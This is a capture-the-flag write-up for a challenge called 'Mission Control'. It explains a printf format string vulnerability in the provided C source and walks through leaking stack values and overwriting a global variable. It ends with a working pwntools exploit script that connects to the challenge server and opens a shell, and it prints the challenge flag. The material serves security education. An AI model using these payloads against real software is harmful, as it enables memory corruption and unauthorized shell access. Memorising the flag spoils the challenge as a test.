 ```yaml
---
description: Format string vulnerability
---
```


# Mission Control

## Description

There have been many hackers trying to compromise our mission control panel lately. We have added a few verification checks!

`nc 20.198.209.142 55021`

_The flag is in the flag format: STC{...}_

**Author: zeyu2001**

{% file src="../../.gitbook/assets/mission\_control.bin" caption="mission\_control" %}

{% file src="../../.gitbook/assets/mission\_control.c" caption="mission\_control.c" %}

## Solution

### Source Code Analysis

To get the flag, users must overwrite the `secret_code` global variable.

```c
#define ADMIN_CODE 200

int secret_code = 0;

...

int main(int argc, char **argv)
{
	if (secret_code == ADMIN_CODE)
	{
		give_shell();
	}
	else
	{
		printf("Sorry, this area is currently disabled.\n");
	}

	return 0;
}
```

Now let's look at the rest of the code. User input is read into `buf`, and `buf` is concatenated to `to_print` before `printf(to_print)` is called.

```c
...

char buf[128];
memset(buf, 0, sizeof(buf));
fgets(buf, 128, stdin);

char to_print[256];
memset(to_print, 0, sizeof(to_print));

strcpy(to_print, "You said: ");
strcat(to_print, buf);

printf(to_print);
printf("Code: %d\n", secret_code);

...
```

This is a classic format string vulnerability. User input is directly passed into the `printf` format string, allowing us to write to arbitrary memory addresses.

An additional restriction is that the first 16 characters of the input must be "I am not a robot".

```c
if (strncmp(buf, "I am not a robot", 16) == 0)
{	
	printf("Glad to hear that!\n");
}
else
{
	printf("Stop hacking us!\n");
	return 0;
}
```

### Exploitation

Using `objdump`, we can find the memory address of `secret_code`.

```text
$ objdump -t mission_control | grep secret_code
080dffbc g     O .bss    00000004 secret_code
```

We need to send 4 bytes in order to specify the address which we want to overwrite. Let this be `AAAA` for now. By sending `I am not a robotAAAA%x.%x.%x ...`, we can leak the stack values \(every `%x` represents 4 bytes\).

![](../../.gitbook/assets/screenshot-2021-07-24-at-2.52.33-pm.png)

Notice that `4141746f` appears at the 10th index and `78254141` at the 11th index. We need the full four bytes to be at the same index, so let's add two extra bytes before the `AAAA`.

![](../../.gitbook/assets/screenshot-2021-07-24-at-2.57.44-pm.png)

We have added two extra bytes `BB` and used Direct Parameter Access \(DPA\) to specify we want the 11th index. The payload is `I am not a robotBBAAAA%11$p`. As we can see, the 11th index is now our `AAAA` string, i.e.`0x41414141`. Perfect!

The final payload is `I am not a robotBB\xbc\xff\x0d\x08%168x%11$n`.

* `\xbc\xff\x0d\x08` is the memory address of `secret_code` \(0x080dffbc\) in little-endian.
* `%168x%11$n` writes 168 + \[bytes already wrote\] to the address on the 11th index.

The exploitation process is outlined by this script:

```python
from pwn import *

# Bruteforce the index of the buffer

conn = remote("20.198.209.142", 55021)
print(conn.recv())

conn.send("I am not a robotBBAAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x\r\n")

print(conn.recv())

# Check the index of the buffer

conn = remote("20.198.209.142", 55021)
print(conn.recv())

conn.send(b"I am not a robotBBAAAA%11$p\r\n")
print(conn.recv())

# Overwrite the secret_code address

conn = remote("20.198.209.142", 55021)
print(conn.recv())

conn.send(b"I am not a robotBB\xbc\xff\x0d\x08%168x%11$n\r\n") # 080dffbc
print(conn.recv())
conn.interactive()
```

Once we overwrite the secret code, we are given a shell. 

![](../../.gitbook/assets/screenshot-2021-07-24-at-3.11.43-pm.png)

The flag is `STC{1_l0v3_f0rm4t_st1ngs_0ab7a4af7bb1343810ccde8244031f2f}`.

